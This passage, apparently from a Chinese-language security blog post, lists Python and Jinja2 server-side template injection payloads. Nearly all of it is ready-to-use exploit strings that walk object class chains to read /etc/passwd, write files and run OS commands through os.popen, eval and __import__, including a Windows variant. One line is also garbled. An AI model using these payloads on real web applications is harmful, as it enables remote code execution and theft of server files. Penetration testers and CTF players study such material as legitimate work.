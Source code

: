 ![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200903194150593-332610088.png)

既然大概知道原理跟利用，我这里不再废话，直接给出大佬们各种绕过payload：

### 基础payload：



```
获得基类
#python2.7
''.__class__.__mro__[2]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]
#python3.7
''.__。。。class__.__mro__[1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
request.__class__.__mro__[1]

#python 2.7
#文件操作
#找到file类
[].__class__.__bases__[0].__subclasses__()[40]
#读文件
[].__class__.__bases__[0].__subclasses__()[40]('/etc/passwd').read()
#写文件
[].__class__.__bases__[0].__subclasses__()[40]('/tmp').write('test')

#命令执行
#os执行
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache下有os类，可以直接执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.func_globals.linecache.os.popen('id').read()
#eval,impoer等全局函数
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__下有eval，__import__等的全局函数，可以利用此来执行命令：
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.eval("__import__('os').popen('id').read()")
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
[].__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').popen('id').read()

#python3.7
#命令执行
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
#windows下的os命令
"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()
```

